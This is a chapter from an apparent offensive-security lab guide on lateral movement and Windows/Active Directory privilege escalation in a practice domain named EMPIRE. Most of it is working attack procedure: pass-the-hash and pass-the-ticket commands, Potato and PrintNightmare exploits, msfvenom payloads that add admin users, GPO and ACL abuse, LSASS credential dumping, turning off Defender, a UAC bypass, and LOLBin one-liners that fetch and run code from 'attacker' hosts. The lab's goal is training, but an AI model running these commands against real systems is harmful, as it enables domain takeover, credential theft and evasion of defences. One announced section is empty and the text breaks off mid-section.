

# 11 — Lateral Movement and Privilege Escalation

You have credentials for one host or user. You need to:

1. **Move laterally** — get a shell on a different host with current creds.
2. **Escalate vertically** — go from low-priv on a host to SYSTEM / local admin.
3. **Escalate horizontally in AD** — go from low-priv domain account to high-priv group (Domain Admins, etc.).

This chapter covers **LAT-001..035** and **PE-001..060** in `PLAN.md`. It is the kitchen-sink chapter of the book.

---

## 11.0.1 (BloodHound) Lab Specific ACL Paths

Before diving into host-level escalation, here is the explicit BloodHound path mapping for domain-level privilege escalation in the EMPIRE environment. These are the chains you will be executing:



---

## 11.0 (Concept) Lateral vs. vertical escalation

```
+----------------------+               +----------------------+
|  Host A              | --- lateral ---> | Host B             |
|  user: peter.parker (NT hash) |              |  user: peter.parker (logged-on) |
+----------------------+               +----------------------+
        |                                          |
        | vertical privesc                         | vertical privesc
        v                                          v
+----------------------+               +----------------------+
|  Host A              |               |  Host B              |
|  user: SYSTEM        |               |  user: SYSTEM        |
+----------------------+               +----------------------+
        |                                          |
        +------ AD privesc (e.g. DCSync) ----------+
                              |
                              v
                +-----------------------------+
                |  Domain Admin / krbtgt      |
                +-----------------------------+
```

The three escalation axes are *independent*. You can:

- Land on Host A as `peter.parker`, jump to Host B as `peter.parker` (lateral), and never escalate vertically.
- Land on Host A as `peter.parker`, escalate to SYSTEM (vertical), and never move.
- Combine: peter.parker on Host A → SYSTEM on Host A → dump tony.stark's creds → tony.stark on Host B → tony.stark is Domain Admin → done.

---

## 11.1 Pre-flight: reading flags and orienting

After landing on a host, capture available flags and orient quickly:

```powershell
# Flags
PS> Get-ChildItem C:\Flags
PS> Get-Content C:\Flags\LAT-001.txt
PS> type C:\Flags\*.txt   # all flags at once

# Identity
PS> whoami /all              # SID, groups, privileges
PS> whoami /priv             # what tokens you hold
PS> $env:USERDOMAIN
PS> $env:USERNAME
PS> $env:COMPUTERNAME

# Host info
PS> systeminfo               # OS, patches, AV
PS> Get-WmiObject Win32_OperatingSystem | Select Caption,Version,BuildNumber
PS> Get-ComputerInfo
PS> Get-CimInstance Win32_QuickFixEngineering | Sort InstalledOn -Descending | Select -First 20

# Defender / EDR
PS> Get-MpComputerStatus | Select AMServiceEnabled,AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,IsTamperProtected
PS> Get-MpPreference | Select ExclusionPath,ExclusionExtension,DisableRealtimeMonitoring

# Network
PS> ipconfig /all
PS> route print
PS> netstat -ano | findstr LISTEN

# Loaded modules + processes
PS> tasklist /v /svc
PS> Get-Process | Where-Object { $_.UserName -ne $null }
```

Save the orientation output to disk **on the attacker side** so you don't risk losing it when the foothold dies:

```bash
# From attacker, via SMB share of writable dir
smbclient -U peter.parker%'EmpireLab2024!' //scarif/share$ -c 'get oriented.txt'
```

---

## 11.2 The lateral movement primitives table

| Tool | Transport | Auth | Output | Need-on-target | Event signature |
|------|-----------|------|--------|----------------|------------------|
| `psexec.py` | SMB → SCM | NTLM/Kerberos | SYSTEM cmd | ADMIN$, service create | 7045 (svc install), 4697 (svc install via SC) |
| `wmiexec.py` | DCERPC → WMI | NTLM/Kerberos | local-admin cmd | DCOM/WMI, ADMIN$ | 4688 (wmiprvse parent), 5145 (ADMIN$ access) |
| `smbexec.py` | SMB → SCM (cmd-via-pipe) | NTLM/Kerberos | SYSTEM cmd | ADMIN$, service create | 7045 (BTOBTO temp svc) |
| `dcomexec.py` | DCOM (MMC20.Application etc.) | NTLM/Kerberos | local-admin cmd | DCOM, ADMIN$ | 4688 (mmc.exe parent) |
| `atexec.py` | Task Scheduler RPC | NTLM/Kerberos | SYSTEM (task) | RPC to ATSvc, ADMIN$ | 4698 (scheduled task created) |
| `evil-winrm` | WinRM (HTTP/HTTPS) | NTLM/Kerberos/Cert | interactive PS | WinRM on 5985/5986, member of Remote Management Users or admin | 4624 LogonType 3, 4688 wsmprovhost.exe |
| RDP (`xfreerdp`) | RDP | NTLM/Kerberos/RestrictedAdmin | interactive desktop | RDP enabled, member of Remote Desktop Users or admin | 4624 LogonType 10 |
| SSH | SSH | password/key | shell | OpenSSH on scarif | sshd / Application log |
| `nxc smb -x` | SMB | NTLM/Kerberos | one-shot cmd | ADMIN$ + service create | same as psexec |
| `Invoke-Command` (WinRM via PS) | WinRM | NTLM/Kerberos | scriptblock | WinRM, admin or RM group | same as evil-winrm |

### Choice matrix (decision tree)

```
Need an INTERACTIVE shell?
├── yes → evil-winrm
└── no
    ├── Need SYSTEM? → psexec.py or atexec.py
    ├── WMI is blocked? → DCOM (dcomexec.py)
    ├── SMB is blocked? → WinRM or DCOM only
    ├── Want to avoid 7045 (service install)? → wmiexec.py or dcomexec.py
    └── Want stealthy one-shot? → wmiexec.py -no-output
```

[Flags: LAT-001..009 — primitive variants per technique]

---

## 11.3 Pass-the-hash lateral — LAT-010..018

You have an NT hash, not a password:

```bash
# Per-tool catalogue
impacket-psexec -hashes :<NT> 'empire.local/Administrator@10.10.0.13'
impacket-wmiexec -hashes :<NT> 'empire.local/Administrator@10.10.0.13'
impacket-smbclient -hashes :<NT> 'empire.local/Administrator@10.10.0.13'
impacket-smbexec -hashes :<NT> 'empire.local/Administrator@10.10.0.13'
impacket-dcomexec -hashes :<NT> 'empire.local/Administrator@10.10.0.13'
impacket-atexec -hashes :<NT> 'empire.local/Administrator@10.10.0.13' 'whoami'
evil-winrm -i 10.10.0.13 -u Administrator -H <NT>
nxc smb 10.10.0.13 -u Administrator -H <NT> -x 'whoami'
nxc winrm 10.10.0.13 -u Administrator -H <NT> -x 'whoami'
```

### Spray for shared local-admin passwords

```bash
nxc smb 10.10.0.0/21 -u Administrator -H <NT> --local-auth
```

`--local-auth` queries the **local SAM**, not domain. Finds hosts where the local Administrator password matches `<NT>` (a classic golden-image leakage pattern).

[Flags: LAT-010 — PTH SMB; LAT-011 — PTH WMI; LAT-012 — PTH WinRM; LAT-013 — PTH local-auth spray]

### Sub-cases

- **Local admin with same password as domain admin on another host?** Spray with `--local-auth` and same NT → instant access.
- **NTLM disabled on target?** Use Kerberos (overpass-the-hash → §11.4).

---

## 11.4 Pass-the-ticket / pass-the-key lateral — LAT-019..025

You have a Kerberos ticket (Golden, Silver, S4U-derived, stolen) or an AES key.

```bash
# ccache path
export KRB5CCNAME=/tmp/Administrator.ccache

# psexec with kerberos
impacket-psexec -k -no-pass 'empire.local/Administrator@coruscant.empire.local'

# evil-winrm with kerberos
KRB5CCNAME=/tmp/coruscant-admin.ccache evil-winrm -i coruscant.empire.local -u Administrator -r empire.local

# Direct AES key (PTK)
impacket-getTGT -aesKey <AES256> 'empire.local/Administrator'
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass 'empire.local/Administrator@coruscant.empire.local'
```

### krb5.conf — the under-the-hood requirement

evil-winrm Kerberos auth requires `krb5.conf` properly set up:

```ini
# /etc/krb5.conf
[libdefaults]
    default_realm = empire.local
    dns_lookup_kdc = false
    dns_lookup_realm = false
    udp_preference_limit = 0
    rdns = false

[realms]
    empire.local = {
        kdc = 10.10.0.10
        admin_server = 10.10.0.10
    }
    rebel.local = {
        kdc = 10.20.0.10
        admin_server = 10.20.0.10
    }
    trade.corp = {
        kdc = 10.30.0.10
        admin_server = 10.30.0.10
    }

[domain_realm]
    .empire.local = empire.local
    empire.local = empire.local
    .rebel.local = rebel.local
    rebel.local = rebel.local
    .trade.corp = trade.corp
    trade.corp = trade.corp
```

`udp_preference_limit = 0` forces TCP — important for large tickets (>1400 bytes) that won't fit in a single UDP packet.

### Ticket format conversion

```bash
# kirbi (Mimikatz/Rubeus) → ccache (impacket)
impacket-ticketConverter peter.parker.kirbi peter.parker.ccache

# ccache → kirbi
impacket-ticketConverter peter.parker.ccache peter.parker.kirbi

# Inspect contents
impacket-describeTicket peter.parker.ccache
klist -e -t -f -K peter.parker.ccache    # MIT-Kerberos klist
```

[Flags: LAT-019 — PTT-ccache; LAT-020 — PTK; LAT-021 — Golden injected; LAT-022 — Silver injected; LAT-023 — kirbi-conversion]

---

## 11.5 Privilege escalation on Windows — vertical

You have a low-priv interactive shell. You want SYSTEM (or at least local admin).

### Token-based escalation — Potatoes

If you hold `SeImpersonatePrivilege` (common for IIS/SQL/MSDTC service accounts), you can use a Potato attack.

The Potato lineage:

| Tool | Works on | Notes |
|------|----------|-------|
| **JuicyPotato** | Server 2016 / Win10 <1809 | Uses DCOM CLSID + COMOLE32 — fixed in 1809 |
| **RoguePotato** | Server 2019 / Win10 1809+ | OXID resolver redirect to attacker box |
| **PrintSpoofer** | Any with Spooler | Pipe coercion via `\PIPE\spoolss` |
| **GodPotato** | Any with RPC | New RPC vector, Win11/Server 2022 |
| **EfsPotato** | Any with EFSRPC | Uses `\PIPE\efsrpc` ‒ MSRPC binding |
| **DCOMPotato** | Service accounts | DCOM activation race |

```cmd
# PrintSpoofer — Spooler-based
.\PrintSpoofer.exe -i -c powershell.exe

# RoguePotato
.\RoguePotato.exe -r 10.10.0.1 -l 9999 -e "powershell.exe"

# GodPotato
.\GodPotato.exe -cmd "cmd /c whoami > C:\Users\Public\who.txt"
```

After Potato:

```
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
*Evil-WinRM-spawned-SYSTEM* PS> whoami
nt authority\system
```

[Flag: PE-001 — Potato escalate from SeImpersonate]

### How Potato works (one paragraph)

You hold `SeImpersonate` — you can call `ImpersonateLoggedOnUser` if you can get a high-privilege thread to authenticate to a pipe you control. Spooler / EFSRPC / OXID resolver / DCOM activation can be coerced to authenticate to a `\PIPE\<random>` you opened. When the SYSTEM thread connects, you `ImpersonateNamedPipeClient`, then `CreateProcessAsUser` with that token.

### Service binary hijack — PE-002..008

If a service runs as SYSTEM and its binary path is writable:

```powershell
# Enumerate services where the user can modify
Get-WmiObject Win32_Service | Where { $_.PathName -notmatch '"' -and $_.StartName -eq 'LocalSystem' } | Select Name, PathName, StartName

# Check ACL
foreach ($svc in (Get-WmiObject Win32_Service | Where { $_.StartName -eq 'LocalSystem' })) {
    $exe = ($svc.PathName -split '"')[1]
    if (-not $exe) { $exe = ($svc.PathName -split ' ')[0] }
    try { (Get-Acl $exe).Access | Where { $_.IdentityReference -match 'Users|Everyone|Authenticated' -and $_.FileSystemRights -match 'Write|Modify|FullControl' } | Select @{n='Service';e={$svc.Name}}, @{n='Exe';e={$exe}}, IdentityReference, FileSystemRights } catch {}
}

# winPEAS automates this
.\winPEASx64.exe servicesinfo quiet
```

If binary writable:

```cmd
copy evil.exe "C:\Program Files\Vendor\service.exe" /Y
sc stop VulnSvc
sc start VulnSvc
```

### Unquoted service path — PE-003

`PathName = C:\Program Files\Vendor\my service.exe`. Without quotes, Windows tries:
1. `C:\Program.exe`
2. `C:\Program Files\Vendor\my.exe`
3. `C:\Program Files\Vendor\my service.exe`

If you can write to `C:\Program Files\Vendor\` (rare) and create `my.exe`:

```cmd
sc stop VulnSvc
sc start VulnSvc      # runs as SYSTEM
```

`C:\Program.exe` requires write to `C:\` (root) — usually denied.

### DLL hijack — PE-004

A SYSTEM service or scheduled task loads a DLL by relative path or from a writable directory. Drop a DLL with the expected name → loaded as SYSTEM.

```powershell
# Process Monitor (sysinternals) finds DLL load paths
procmon.exe   # Filter: Process Name=svc.exe, Result=NAME NOT FOUND, Path ends with .dll
```

### Registry-write services — PE-005

If a low-priv user has write on `HKLM\SYSTEM\CurrentControlSet\Services\<svc>`:

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc
reg add HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\Public\evil.exe" /f
sc start VulnSvc
```

### AlwaysInstallElevated — PE-006

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both = 1:

```cmd
msfvenom -p windows/x64/exec CMD='net user evil P@ss /add; net localgroup Administrators evil /add' -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

### Scheduled task with writable script — PE-007

```cmd
schtasks /query /fo LIST /v | findstr "TaskName Run"
icacls "C:\scripts\dailybackup.ps1"
# If user can write → overwrite, wait for next run.
```

### Token-impersonation via `SeAssignPrimaryTokenPrivilege` / `SeTakeOwnershipPrivilege` — PE-008

Specific privilege chains. winPEAS lists them.

[Flags: PE-001..008]

---

## 11.6 Privilege escalation via AD groups — PE-009..035

### Backup Operators — PE-009

Members have `SeBackupPrivilege` on every DC. They can read NTDS.dit and the SAM/SYSTEM hives:

```powershell
PS> reg save HKLM\SAM C:\Users\Public\sam.save
PS> reg save HKLM\SYSTEM C:\Users\Public\system.save
PS> reg save HKLM\SECURITY C:\Users\Public\security.save
PS> robocopy /b C:\Windows\NTDS\ C:\Users\Public ntds.dit
# /b = backup mode (uses SeBackupPrivilege to bypass DACL)
```

Download and parse:

```bash
impacket-secretsdump -system system.save -sam sam.save \
    -security security.save -ntds ntds.dit LOCAL \
    -outputfile ntds-from-bk
```

You get every domain user's NT hash + krbtgt → game over.

[Flag: PE-009 — Backup Operators DC compromise]

### Server Operators — PE-010

Members can configure non-AD services on DCs. Change the binary path of an innocent service, restart, get SYSTEM on DC:

```cmd
sc.exe \\coruscant config Browser binPath= "C:\Windows\Temp\evil.exe"
sc.exe \\coruscant stop Browser
sc.exe \\coruscant start Browser
```

(Stopping NTDS is rejected; use a stoppable, less critical service.)

[Flag: PE-010 — Server Operators DC binary swap]

### Print Operators — PE-011

Can load arbitrary printer drivers → PrintNightmare → SYSTEM on DC.

```bash
python3 CVE-2021-1675.py empire.local/peter.parker:'EmpireLab2024!'@10.10.0.10 '\\10.10.0.1\share\evil.dll'
```

[Flag: PE-011 — Print Operators driver load]

### Account Operators — PE-012

Can create users, modify non-protected (non-AdminSDHolder) users. Often a stepping stone:

1. Create user `stepping`.
2. Add `stepping` to a group you have write on.
3. Use `stepping` for the next stage.

```bash
net user stepping P@ssword1! /add /domain
net group "GPO Editors" stepping /add /domain
```

[Flag: PE-012 — Account Operators bridge]

### DnsAdmins — PE-013

Can configure DNS service-level DLL plugins on DC:

```cmd
dnscmd coruscant /config /serverlevelplugindll \\10.10.0.1\share\evil.dll
sc stop DNS
sc start DNS
```

`evil.dll`'s `DllMain` runs as `LocalSystem` because `dns.exe` runs as SYSTEM. Net effect: SYSTEM on DC.

Host `evil.dll` on an SMB share you control:

```bash
sudo impacket-smbserver share /tmp/share -smb2support
```

[Flag: PE-013 — DnsAdmins DLL load]

### Group Policy Creator Owners — PE-014

Can create GPOs. Pair with a `gPLink` write on an OU to deploy.py a malicious GPO. Often combined with SharpGPOAbuse.

```powershell
SharpGPOAbuse.exe --AddComputerScript --GPOName "Evil GPO" --ScriptName evil.bat --ScriptContents 'net user evil P@ss /add; net localgroup Administrators evil /add'
```

[Flag: PE-014 — GPO Creator Owners]

### Cert Publishers — PE-015

Members can write to `NTAuthCertificates`. Add your own CA's cert → your CA can now issue PKINIT-valid certs. See chapter 6 / 12.

[Flag: PE-015 — Cert Publishers NTAuth pollution]

### Enterprise Read-only DC Admins / Read-only DC Admins — PE-016

Limited — mostly for delegated RODC management. Some paths to credential cache abuse.

### Schema Admins — PE-017

Can modify the schema (forest-wide). Add a backdoor attribute to user class; persist. See chapter 12.

[Flag: PE-017 — Schema Admins attribute add]

### Enterprise Admins (root domain) — PE-018

All-of-everything in the forest. Final stop.

### Domain Admins — PE-019

All-of-everything in one domain. The usual target.

---

## 11.7 AdminSDHolder backdoor — PE-020 / PER-014 boundary

```
1. Get GenericWrite on AdminSDHolder (or be Domain Admin once)
2. Add ACE: <attacker> → GenericAll
3. Wait 60 min for SDProp
4. Every protected group's members now have <attacker> as GenericAll
```

See chapter 4 / 12 for the deep flow. The escalation use is to *seed* persistent privilege as you also use it for re-entry.

```bash
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    add genericAll 'CN=AdminSDHolder,CN=System,DC=empire,DC=local' peter.parker
```

[Flag: PE-020 / PER-014 — AdminSDHolder ACE]

---

## 11.8 GPO abuse — PE-021..024

You have write on a GPO. Add a startup script or scheduled-task immediate item that runs your command on every host the GPO targets.

### SharpGPOAbuse (preferred)

```cmd
SharpGPOAbuse.exe --AddComputerScript --GPOName "Default Domain Policy" --ScriptName evil.bat --ScriptContents "net group 'Domain Admins' peter.parker /add /domain"

SharpGPOAbuse.exe --AddUserStartupScript --GPOName "User GPO" --ScriptName login.bat --ScriptContents "powershell -enc <b64>"

SharpGPOAbuse.exe --AddImmediateTask --TaskName "Daily Sync" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --CommandArguments "/c powershell -enc <b64>" --GPOName "Default Domain Policy"
```

### pyGPOAbuse / bloodyAD

```bash
python3 pygpoabuse.py empire.local/peter.parker:'EmpireLab2024!' -gpo-id <GUID> -f
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    gpoadd  ...  # newer bloodyAD versions
```

### Wait for gpupdate cycle

Default = 90 min ± 30 min jitter. Force on a victim:

```cmd
gpupdate /force
```

[Flag: PE-021 — GPO startup script; PE-022 — Immediate Task; PE-023 — Logon script]

### Mitigation note

Audit GPO ACLs. Any non-Tier-0 principal with GenericWrite on a Tier-0-linked GPO is a critical finding.

---

## 11.9 ACL abuse — PE-025..035

You have a privileged ACE on a target object. Use it.

### ACE → primitive table (the one you'll memorise)

| ACE | What it grants | How to abuse |
|-----|---------------|--------------|
| `GenericAll` | Full control | Anything below |
| `GenericWrite` | Write all attrs | Set SPN → Kerberoast; set passwordnotreqd; modify members (groups); set msDS-AllowedToActOnBehalfOfOtherIdentity (computers) |
| `WriteDacl` | Modify ACL | Grant yourself GenericAll |
| `WriteOwner` | Take ownership | Become owner → WriteDacl on yourself → GenericAll |
| `WriteProperty` (member) | Modify group membership | Add yourself to the group |
| `Self` (member) | Add yourself to the group | If allowed by extended-rights |
| `User-Force-Change-Password` | Reset password no-know-old | Reset to known |
| `DS-Replication-Get-Changes / -All` | DCSync | Dump krbtgt |
| `AddKeyCredentialLink` | Plant shadow cred | certipy shadow auto |
| `WriteSPN` | Add SPN | Then Kerberoast |
| `AllExtendedRights` | Includes password reset + DCSync + KCL | Anything |
| `CreateChild` (computerObject) | Create computers | Make machine accounts for RBCD |

### Tools

```bash
# Password reset
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    set password victim 'NewPass1!'
net rpc password victim 'NewPass1!' -U empire.local/peter.parker%'EmpireLab2024!' -S 10.10.0.10

# Add to group
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    add groupMember "Domain Admins" peter.parker
net rpc group addmem "Domain Admins" peter.parker -U empire.local/peter.parker%'EmpireLab2024!' -S 10.10.0.10

# Set SPN
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    add objectAttribute victim servicePrincipalName 'cifs/anything.empire.local'

# Plant Shadow Credential
certipy shadow auto -u peter.parker@empire.local -p 'EmpireLab2024!' -dc-ip 10.10.0.10 -account victim$

# Set RBCD
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    set rbcd scarif$ EVIL$
impacket-rbcd empire.local/peter.parker:'EmpireLab2024!' -dc-ip 10.10.0.10 \
    -delegate-from 'EVIL$' -delegate-to 'scarif$' -action write

# WriteDacl → grant yourself GenericAll
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    add genericAll victim peter.parker

# WriteOwner → take ownership
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    set owner victim peter.parker
# Then WriteDacl, then GenericAll, then anything.
```

### Discovery — finding usable ACEs

```cypher
// BloodHound: every ACE peter.parker has on any object
MATCH p=(u:User {name:'ALICE@empire.local'})-[r]->(o)
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner',
                   'AddMember','ForceChangePassword','AllExtendedRights',
                   'AddKeyCredentialLink','WriteSPN','AddAllowedToAct']
RETURN p
```

*(Note: Within the EMPIRE BloodHound map, look out for specifically crafted chains such as `developer1` having `ForceChangePassword` on `nick.fury`, `nick.fury` having `WriteOwner` over `Domain Admins`, or `peter.parker` holding `GenericAll` over `tony.stark`.)*

Or:

```bash
bloodyAD -d empire.local -u peter.parker -p 'EmpireLab2024!' --host 10.10.0.10 \
    get writable
```

[Flag: PE-025..035 cluster — ACL abuses]

---

## 11.10 PE on member servers — EMPIRE specifics

The EMPIRE member servers each have a tailored privesc:

### scarif

- An executable in `C:\Program Files\Vendor\` with weak ACLs (PE-005-style binary hijack).
- Possibly an `unattend.xml` left in `C:\Windows\Panther\` containing a local-admin password.
- `WebClient` service running (enables HTTP-based coercion).
- SeBackupPrivilege not granted; needs Backup Operators membership for SAM/SYSTEM extract.

### kamino

- MSSQL `xp_cmdshell` with `sa` → SYSTEM if you crack the `sa` password.
- `TRUSTWORTHY` database chain (see chapter 10).
- `SeImpersonate` on the SQL service account → Potato to SYSTEM.

```sql
EXEC xp_cmdshell 'C:\Users\Public\PrintSpoofer.exe -i -c "net user evil P@ss /add"'
```

### tatooine

- `AlwaysInstallElevated=1`.
- Scheduled task running as SYSTEM with writable PS1 script in `C:\Tasks\`.
- LAPS NOT configured for this host — local admin static.
- Possibly Defender RealTimeProtection disabled (a EMPIRE intentional pattern).

Check `PLAN.md` for the canonical PE list per host.

[Flags: PE-031 (scarif), PE-032 (kamino), PE-033 (tatooine)]

---

## 11.11 SSH lateral to scarif — LAT-030

EMPIRE's scarif may run an OpenSSH for Windows service. Move laterally:

```bash
ssh peter.parker@10.10.0.13

# With captured private key from share scrape
ssh -i peter.parker.key peter.parker@10.10.0.13
```

OpenSSH-for-Windows defaults: keys in `C:\Users\<user>\.ssh\authorized_keys`. The `administrators_authorized_keys` file in `C:\ProgramData\ssh\` is a global override for any admin login.

You can drop your pubkey there if you're already local admin → persistence (chapter 12).

[Flag: LAT-030 — SSH lateral scarif]

---

## 11.12 SMB exec patterns — protocol-level

### psexec.py — what it does on the wire

1. Connect to ADMIN$ via SMB.
2. Upload `RemCom.exe` (or random name).
3. Connect to SCM via MS-SCMR named pipe (`\PIPE\svcctl`).
4. Create service pointing at uploaded EXE.
5. Start service.
6. Service binary opens `\\.\pipe\<random>` and connects back.
7. Stdin/stdout streamed over SMB pipe.
8. On exit: stop service, delete service, delete file.

```
[Wire footprint]
- SMB TREE_CONNECT to \\target\ADMIN$
- SMB WRITE of executable (often >100KB)
- DCERPC CreateService → 7045 event
- DCERPC StartService → 4697 event
- DCERPC DeleteService
```

### wmiexec.py — what it does on the wire

1. DCOM activation of `Win32_Process` (CLSID 8BC3F05E-D86B-11D0-A075-00C04FB68820).
2. `Win32_Process::Create` with command line `cmd.exe /Q /c <user_cmd> 1> \\127.0.0.1\ADMIN$\__<timestamp> 2>&1`.
3. Wait, read output file from ADMIN$.

```
[Wire footprint]
- DCERPC IRemoteSCMActivator → IRemUnknown2 → IWbemServices::ExecMethod
- SMB WRITE to ADMIN$\__<timestamp> (small, no executable)
- Event 4688 with parent wmiprvse.exe — characteristic
```

No service install. Often quieter than psexec.

### dcomexec.py — what it does on the wire

DCOM activation of `MMC20.Application` (CLSID 49B2791A-B1AE-4C90-9B8E-E860BA07F889) → `Document.ActiveView.ExecuteShellCommand`. Same shape as wmiexec, different CLSID.

Other usable CLSIDs:
- `ShellWindows` (9BA05972-F6A8-11CF-A442-00A0C90A8F39)
- `ShellBrowserWindow` (C08AFD90-F2A1-11D1-8455-00A0C91F3880)
- `MMC20.Application`
- `Excel.Application` (worked in older Office)

### atexec.py — what it does on the wire

1. Connect to ATSvc RPC interface.
2. Create scheduled task running cmd.
3. Task fires, output redirected to ADMIN$.
4. Read output, delete task.

```
[Wire footprint]
- DCERPC SchRpcRegisterTask → 4698
- Cmd execution
- 4699 (task deleted)
```

Use atexec when the target's WMI is busted or you don't want a service install.

### evil-winrm — what it does on the wire

WinRM is SOAP-over-HTTP(S) on 5985/5986. Auth via NTLM (default) or Kerberos (`-r empire.local`). Session is an interactive shell hosted by `wsmprovhost.exe`.

```
[Wire footprint]
- HTTP POST to /wsman with NTLM/Kerberos in Authorization header
- 4624 LogonType 3
- 4688 wsmprovhost.exe spawning your commands
```

---

## 11.13 Token impersonation and `runas` patterns

### `runas /netonly` (when you have a different cred set than your shell)

```cmd
runas /netonly /user:empire.local\peter.parker powershell.exe
# In the spawned shell, all network calls use peter.parker's creds; local calls still use original
```

### Token theft via Incognito (Meterpreter) or SharpToken

```
PS> .\SharpToken.exe list
PS> .\SharpToken.exe impersonate <PID>
```

Steals an existing primary or impersonation token from another process — works without re-authenticating.

### PowerShell `Invoke-Command` with different creds

```powershell
$cred = New-Object System.Management.Automation.PSCredential('corp\tony.stark',(ConvertTo-SecureString 'P@ss' -AsPlainText -Force))
Invoke-Command -ComputerName scarif -Credential $cred -ScriptBlock { whoami }
```

### `New-PSDrive` for SMB with creds

```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\scarif\share -Credential $cred
```

---

## 11.14 Living-off-the-land binaries (LOLBAS) for lateral execution

When you're already on a host as an interactive user and want to run code without dropping suspicious binaries:

| LOLBin | Use |
|--------|-----|
| `mshta.exe http://attacker/evil.hta` | Run HTA-embedded script |
| `rundll32 url.dll,FileProtocolHandler http://attacker/evil` | Web fetch |
| `regsvr32 /s /u /i:http://attacker/evil.sct scrobj.dll` | Script-via-COM |
| `msbuild.exe evil.xml` | Inline C# build |
| `installutil /U evil.dll` | .NET installer hook |
| `certutil -urlcache -split -f http://attacker/file file` | Download |
| `bitsadmin /transfer dl http://attacker/file C:\file` | Download via BITS |
| `forfiles /p C:\Windows\System32 /m notepad.exe /c "cmd /c whoami"` | Cmd via forfiles |
| `wmic.exe process call create 'cmd /c whoami'` | WMI exec |
| `Add-MpPreference -ExclusionPath C:\Users\Public` | Defender exclusion (if you can) |

LOLBAS catalogue at `lolbas-project.github.io`.

---

## 11.15 PE via UAC bypass — local elevation

For interactive desktop sessions where the user is a local admin **but with split token** (UAC enabled), you need a UAC bypass to get the elevated token.

### fodhelper bypass (Win10/11 medium-IL → high-IL)

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value ""
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c start powershell -enc <b64>"
Start-Process "fodhelper.exe"
```

Other auto-elevating LOLBins: `eventvwr.exe` (HKCU:\Software\Classes\mscfile\shell\open\command), `sdclt.exe`, `WSReset.exe`.

### Bypass with token swap

Tools like UACME, PrivescCheck list current bypass candidates per OS build.

---

## 11.16 Disable AV / Defender (when you have admin)

```cmd
# Tamper protection check
PowerShell.exe -Command "Get-MpComputerStatus | Select IsTamperProtected"

# Add exclusion (if not tamper-protected)
Add-MpPreference -ExclusionPath "C:\Users\Public"
Add-MpPreference -ExclusionExtension "ps1"
Add-MpPreference -ExclusionProcess "powershell.exe"
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable scheduled scans
Set-MpPreference -DisableScheduledScanning $true
```

If Tamper Protection is on, you need to disable it from Settings (interactive) or via GPO precedence — generally you don't.

**Operationally:** prefer to bypass (AMSI patch, in-memory loaders, LOLBins) rather than disable. Disabling AV is a high-signal action.

---

## 11.17 In-process credential theft — without LSASS dump

### lsassy

```bash
lsassy -u peter.parker -p 'EmpireLab2024!' -d empire.local -M procdump 10.10.0.13
# Methods: procdump, comsvcs, dllinject, mirrordump, dumpert, nanodump, ppldump
```

### nanodump — silent

Forks the LSASS process, reads memory from the fork, releases. Defender ASR's "Block credential stealing from LSASS" rule doesn't catch the fork pattern.

### MalSecLogon trick

Use `SeTcbPrivilege` (impersonated) + `S4ULogonUser` to mint a token that has full LSASS access without OpenProcess on the real process.

---

## 11.18 DCSync as the universal AD privesc

Once you have ANY of:

- DA membership
- Enterprise Admin membership
- `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` ACEs
- DC machine account hash/TGT
- `Backup Operators` (lets you read NTDS off disk)

→ you DCSync krbtgt. From there:

- Golden TGT → any user impersonation.
- DA tickets → DC code execution.

DCSync is in chapter 10. Mention here because it's the **terminal** AD-privesc primitive — every escalation chain in this chapter wants to end at DCSync.

---

## 11.19 Cross-tier escalation paths

The Microsoft Tier model:

- **Tier 0**: AD/PKI/etc. — DCs, ADCS, AzureAD Connect, ADFS, krbtgt, SCCM site server.
- **Tier 1**: Servers — application servers, file servers, DB.
- **Tier 2**: Workstations — user endpoints.

